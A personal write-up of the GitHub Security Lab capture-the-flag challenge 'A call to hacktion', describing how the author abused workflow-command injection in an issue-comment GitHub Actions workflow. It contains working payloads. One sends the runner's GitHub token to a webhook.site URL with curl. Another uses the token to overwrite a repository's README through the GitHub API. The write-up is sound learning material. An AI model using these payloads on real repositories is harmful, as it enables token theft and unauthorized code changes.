 ```yaml
---
title: A call to hacktion, a GitHub workflow CTF
subTitle: GitHub Security Lab, Capture The Flag
category: "ctf"
cover: photo-a-call-to-hacktion-cover.jpg
---
```


## Introduction

"A call to hacktion, a GitHub workflow CTF" is a single level challenge based around GitHub Workflow best practices and an interesting vulnerability pattern that GitHub Security teams have seen out in the real world.

To solve the game, you will have to elevate your privileges from read-only to full write access on a designated game repository!

## My Process

Okay, so we know that this challenge resolves around the GitHub Workflow, the vulnerability is probably in the workflow file.

#### Content of **comment-logger.yml**:

```yaml
name: log and process issue comments
on:
  issue_comment:
    types: [created]

jobs:
  issue_comment:
    name: log issue comment
    runs-on: ubuntu-latest
    steps:
      - id: comment_log
        name: log issue comment
        uses: actions/github-script@v3
        env:
          COMMENT_BODY: ${{ github.event.comment.body }}
          COMMENT_ID: ${{ github.event.comment.id }}
        with:
          github-token: "deadc0de"
          script: |
            console.log(process.env.COMMENT_BODY)
            return process.env.COMMENT_ID
          result-encoding: string
      - id: comment_process
        name: process comment
        uses: actions/github-script@v3
        timeout-minutes: 1
        if: ${{ steps.comment_log.outputs.COMMENT_ID }}
        with:
          script: |
            const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
            return ""
          result-encoding: string
```

As it was my first time working with GitHub workflow, I needed to understand how GitHub workflow works. I googled the workflow syntax for github actions to understand the workflow configuration. 

Link: https://docs.github.com/en/actions/reference/workflow-syntax-for-github-actions

After reading the syntax, I realised this this workflow will the process describe in the workflow configuration when there is a new comment on an issue. With that knowledge, I figured that I should create a new issue and play around and see the logs on the workflow.

![new-issue](./new-issue.jpeg)

Then I proceed to make a new commnet under the newly created issue, "test issue". I noticed that an action was ran after my comment, so I clicked on the action and tried to see the log.

![github-action-log](./github-action-log.jpeg)

So I realised that my comment is a user input that I can control, which may or may not be the vulnerability. As this is my only lead, I went ahead and googled more GitHub actions workflow releated stuff, and I came across a GitHub Security Lab blog post about untrusted input.

Link: https://securitylab.github.com/research/github-actions-untrusted-input

```yaml{3,6,11,14}
- id: comment_log
env:
    COMMENT_BODY: ${{ github.event.comment.body }} // I CAN CONTROL
    COMMENT_ID: ${{ github.event.comment.id }}
    script: |
    console.log(process.env.COMMENT_BODY) // MY INPUT, CAN I INJECT CODE HERE?
    return process.env.COMMENT_ID
    result-encoding: string

- id: comment_process
if: ${{ steps.comment_log.outputs.COMMENT_ID }}
with:
    script: |
    const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
    return ""
    result-encoding: string
```

Looking at the workflow file again, I see that my input (*comment_body*), is flows to `console.log(process.env.COMMENT_BODY)`. My first initial thought is that I could potential inject javascript code here. To test my theory, I tried inputing quotes, `'` and `"` to see if there is any error generated. 

And did it work? Of course that didn't work, it would have been too easy if it did. Afterwards, I thought to try out some of the steps written in the GitHub Security Lab blog post about untrusted input. I tried template injection, but that didn't work as there is no template here.

Sadly, I was stuck here for a long time, just spamming and hoping for an error to pop out. I decided to continue googling GitHub actions/workflow, to see if I could find anything of interest. 

Which somehow, I did. I found out that there is something called "workflow command", not sure what that is, I read the website and noticed that a workflow command was passed in a `console.log`. I tried doing the same thing just to see what will happen.

Link: https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions

My input: `::save-state name=processID::12345`. This workflow command create environment variables named STATE_processID with the value of 12345. I thought that this command could modify the COMMAND_ID, so I replace "processID" with "COMMAND_ID". Spoiler alert, it didn't. Why not? That's because this command created an enviroment variable and prepend "STATE_".

```yaml
if: ${{ steps.comment_log.outputs.COMMENT_ID }}
```

Back to the workflow file again, I noticed that if I wanted the next step to run, the commet_log needed to output the COMMENT_ID, right? Note: *Not really, `steps.comment_log.outputs.COMMENT_ID` is actually just the value of the output from the comment_log step.*

With that, I'm going to skip my painstaking redundant effort to try to get "COMMNET_BODY" to be the value of "COMMENT_ID".

Now, another workflow command is `::set-output name=action_fruit::strawberry`. This workflow command set the value output of "action_fruit" to "strawberry". Understanding this command, I tried to set the output value of commnet_log, "COMMNET_ID" to "true" after learning that expression in the `if` statement will be evaluated as an expression. 

My input: `::set-output name=COMMENT_ID::true`. Finally, I started to see progress. Quickly, I know that command injection is possible, as this input is treated as an expression as part of the variable declaration.

```javascript
const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
```

![github-action-log-process](./github-action-log-process.jpeg)

Time to print out the enviroment variables, which contains the GITHUB TOKEN for READ/WRITE access according to the GitHub workflow documentation. My input: `::set-output name=COMMENT_ID::true ;console.log(process.env);`.

![github-action-leak-env](github-action-leak-env.png)

However, the GitHub token is masked, therefore we cannot just see it. Also, later on, I would realised the the token is only valid while the action is being run. Therefore, even if I could copy and token, it would be useless later.

I then used some website to recieve request, thinking that I could append the token as part of the URL, just to validate the token exists. My input: `::set-output name=COMMENT_ID::true ;const execSync = require('child_process').execSync; code = execSync('curl https://webhook.site/REDACTED?token=' + process.env["INPUT_GITHUB-TOKEN"]);`. I did the same for "ACTIONS_RUNTIME_TOKEN".

After verifying that the token exists, all I had to do is to make a request using GitHub API with the token to commit to the "README.md" file. I spent quite a few time researching the API but the solution is below.

## My Solution

``::set-output name=COMMENT_ID::true ;const execSync = require('child_process').execSync; code = execSync(`curl -i --request PUT --url https://api.github.com/repos/${process.env.GITHUB_REPOSITORY}/contents/README.md --header 'authorization: Bearer ${process.env["INPUT_GITHUB-TOKEN"]}' --header 'content-type: application/json' --data '{ "message": "PWNED!!!!", "content": "V2UgYXJlIGluY3JlZGlibHkgc2VjdXJlISBCdXQgaWYgeW91IGRpc2FncmVlLCBwbGVhc2UgZmlsZSBhIFBSIDopCk5PUEUsIEkgRElTQUdSRUVFRSEh", "sha": "959c46eb0fbab9ab5b5bfb279ab6d70f720d1207" }' --fail`);``

![pwned](./pwned.jpeg)

## Results

GitHub Capture the Flag results: https://github.blog/2021-03-22-github-ctf-results/

Note: *The results website shows a different step taken to solve this challenge, go ahead and read it as I think it's nicer and cleaner solution overall compared to mine.*